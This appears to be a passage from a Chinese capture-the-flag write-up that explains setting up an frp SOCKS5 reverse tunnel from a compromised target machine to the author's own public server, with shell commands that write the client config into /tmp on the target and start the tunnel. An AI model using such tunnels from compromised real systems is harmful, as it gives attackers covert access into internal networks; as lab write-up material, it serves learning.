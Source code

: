 接下来就是开启代理的步骤

需要有一台有公网IP的服务器（就像我这个博客一样也是一个服务器），然后还要一个虚拟机kali

frp这个工具，可以搜一搜具体的使用方法

在tools里存有frp的客户端的ini，只不过里面的配置无法使用

回想起来出题人在群里提过一句写文件要到tmp目录下

那么就应该是要我们自己到tmp目录下创建能够使用的frp配置文件

这里靶机是客户端，那么客户端配置文件的写法比较简单

由于vim不能使用，那就用>尖括号配合echo来创建文件，记得切换目录到tmp（中文是要改的部分

```
echo '[common]\nserver_addr = 自己的公网服务器IP\nserver_port = 稍后会用作代理的端口\ntoken = 对接密码\n\n[plugin_socks5]\ntype = tcp\nplugin = socks5\nremote_port = 用于连接frp的端口\n' > frpc.ini
```

同时我们自己的公网服务器也要下载frp这个文件

具体代码如下

```
#安装
wget https://github.com/fatedier/frp/releases/download/v0.38.0/frp_0.38.0_linux_amd64.tar.gz

#解压
tar -xzvf frp_0.38.0_linux_amd64.tar.gz
```

修改自己服务器的的frps.ini

```
[common]

bind_port = 用于frp的端口#这个是服务器上建立连接的端口

token = 对接密码# 这个token在客户端会用到
```

然后执行以下命令

```
在自己服务器上： ./frps -c frps.ini
在靶机上：进入frp目录  ./frpc -c /tmp/frpc.ini
```

如果成功会看到这样的截图👇

![](./images/image-5.png)
